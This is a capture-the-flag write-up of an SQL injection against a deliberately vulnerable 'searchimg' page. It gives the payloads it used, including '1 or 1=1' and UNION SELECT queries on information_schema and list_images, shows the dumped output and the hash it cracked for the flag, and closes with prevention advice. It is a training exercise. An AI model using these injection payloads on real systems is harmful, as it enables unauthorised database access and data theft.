 # Description

Visiting the 'searchimg' page, it display a search field that search for members by id.

Trying a basic sql injection test, putting a single quote in the search field and submit.

We got an sql syntax error:
`You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '\'' at line 1`

Then trying `1 or 1=1` will gives all members in the database:

```html
ID: 1 or 1=1 
First name: one
Surname : me

ID: 1 or 1=1 
First name: two
Surname : me

ID: 1 or 1=1 
First name: three
Surname : me

ID: 1 or 1=1 
First name: Flag
Surname : GetThe
```

# Attack

Now let's try to determine the SQL request 

As it seems from the last input the SQL request only retreive 2 columns so we will need to inject those columns with data from database.

Now let's look for all the databases names in the database using this sql injection.

    0 UNION select table_name,column_name from information_schema.columns

As you will see below we found an interesting database informations, `list_images` That contains a comment for each image I guess. It's catchy.


```html
ID: 0 UNION select table_name,column_name from information_schema.columns 
First name: list_images
Surname : id

ID: 0 UNION select table_name,column_name from information_schema.columns 
First name: list_images
Surname : url

ID: 0 UNION select table_name,column_name from information_schema.columns 
First name: list_images
Surname : title

ID: 0 UNION select table_name,column_name from information_schema.columns 
First name: list_images
Surname : comment
```

Now we will try to see what all images has on the `commet` Column, It may be something interesting.

    0 UNION select concat(id, url),concat(title, comment) from list_images

```html
ID: 0 UNION select concat(id, url),concat(title, comment) from list_images 
Title: NsaAn image about the NSA !
Url : 1https://fr.wikipedia.org/wiki/Programme_

ID: 0 UNION select concat(id, url),concat(title, comment) from list_images 
Title: 42 !There is a number..
Url : 2https://fr.wikipedia.org/wiki/Fichier:42

ID: 0 UNION select concat(id, url),concat(title, comment) from list_images 
Title: GoogleGoogle it !
Url : 3https://fr.wikipedia.org/wiki/Logo_de_Go

ID: 0 UNION select concat(id, url),concat(title, comment) from list_images 
Title: EarthEarth!
Url : 4https://en.wikipedia.org/wiki/Earth#/med

ID: 0 UNION select concat(id, url),concat(title, comment) from list_images 
Title: Hack me ?If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : 5borntosec.ddns.net/images.png
```

As you can see the last image Has this string result `Hack me ?If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46`

Now decripting it with md5: 1928e8083cf461a51303633093573c46 : albatroz

albatroz (sha256): f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188

# Prevention

To prevent SQL injection vulnerabilities, follow these measures:

- Use prepared statements with parameterized queries to separate SQL code from user input.
- Implement input validation and sanitize user inputs to prevent malicious input.
- Employ a Web Application Firewall (WAF) to detect and block malicious SQL injection attempts.

